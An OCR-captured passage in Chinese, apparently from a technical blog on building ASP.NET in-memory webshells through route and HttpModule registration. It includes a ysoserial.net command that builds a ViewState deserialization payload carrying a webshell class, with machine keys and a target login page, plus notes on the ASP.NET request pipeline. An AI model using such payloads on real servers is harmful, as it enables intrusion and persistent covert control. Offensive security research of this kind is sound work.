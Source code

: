             }  
            catch (System.Exception) { }  
            Context.Response.Flush();  
            Context.Response.End();  
        }  
    }  
    

## 改造内存马

### Route

修改项目Framework版本

![]()

首先为项目添加mvc包支持

![]()

修改文件熟悉

![]()

    
    
    -p ViewState -g ActivitySurrogateSelectorFromFile -c "RouteWebshell.cs;System.dll;System.Web.dll;System.Web.Mvc.dll" --decryptionalg="AES" --decryptionkey="51FE611365277B07911521B7CAFE3766751D16C33D96242F0E63E93FB102BCE2" --validationalg="HMACSHA256" --validationkey="BF579EF0E9F0C85277E75726BFC9D0260FADE8DE2864A583484AA132944F602D" --path="/login.aspx" --apppath="/" --isdebug  
    

比较麻烦的的一点是exploitclass和ysoserial属于两个不同的项目，每次修改代码之后记得要build一次，不然运行ysoerial不会编译新的代码

这里有个和蚁剑作者写的不同的地方

 **使用web forms框架的项目，通常不用mvc的filter去做权限控制**

 **使用mvc的通常也不用viewstate去控制页面状态**

### Http Module

#### http module介绍

HttpHandler（HTTP处理程序）和HttpModule（HTTP模块）是ASP.NET处理HTTP请求的重要组件

首先我们来看一下ASP.NET处理web请求的流程~~~~

![]()

可以看到在经过http module对请求的处理后才进入handler对请求做进一步的处理

Http请求像是一个旅客身上带着行李拿着票来搭火车.

HttpHandler 是火车的终点站.HttpModule 是火车中途停靠的各站.

要查看有哪写IHttpModule或IHttpHandler被注册可以看applicationhost.config
